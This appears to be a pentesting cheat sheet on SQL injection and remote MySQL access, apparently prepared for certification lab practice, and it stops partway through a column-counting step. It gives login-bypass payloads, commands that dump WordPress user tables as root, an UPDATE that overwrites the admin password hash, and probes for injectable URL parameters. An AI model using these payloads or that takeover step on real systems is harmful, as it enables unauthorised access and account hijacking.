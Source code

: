 # SQL
- All credit goes to: https://guide.offsecnewbie.com/5-sql
## Basic Attempts
````
username: admin'#
password: abc123
username: OR1=1#
password: OR1=1#
username: OR1=1-- -
password: OR1=1-- -
````

## 3306 Remotely
````
https://sqlectron.github.io/ to connect remotely
````
````
mysql -h $ip -u root -p
````
````
show databases;
#find the database you want - eg wordpress_db
use wordpress_db;
show tables;
select * from wp_users;
````
- If you have root access remotely like the example above you can get access to the user's wordpress password.
![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-MDU1o3kyLftcE0eKmbl%2F-MDW_5ZrUY4F7rM-FNHY%2Fimage.png)
- If you can not crack the password you can change it to something you know - in fact just change the pass to something you know eg
````
SELECT ID, user_login, user_pass FROM wp_users WHERE user_login = 'admin';
#set the password for user admin to rowbot
UPDATE wp_users SET user_pass='c424ada17bf6e27794273b7db21cf950' WHERE user_login = 'admin';
````
- ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-MDU1o3kyLftcE0eKmbl%2F-MDWiiOz6DDS8VHphrHu%2Fimage.png)
- ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-MDU1o3kyLftcE0eKmbl%2F-MDWiTwNHNhx_yOKsvmU%2Fimage.png)
## Identifying SQL Injection
- Let's say that you have some site like this
````
http://$ip/news.php?id=5
````
- Or a form like this
- ![alt text](https://gblobscdn.gitbook.com/assets%2F-LSy0aAo8OKT4I-Ahftv%2F-M0-osTGaSUSFX4K_LQX%2F-M0-q3W0Zwp4cMYRo-cQ%2Fimage.png)
- Now to test if it is vulnerable you add to the end of url ' (quote).
````
http://$ip/news.php?id=5'
````
- If you get an error like:
- "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right etc..." or something similar
- That means its vulnerable !
- Find the number of columns
- To find number of columns you use statement ORDER BY (tells database how to order the result) so how to use it? Well just increment the number until you get an error.
````
http://$ip/news.php?id=5 order by 1/* <-- no error
````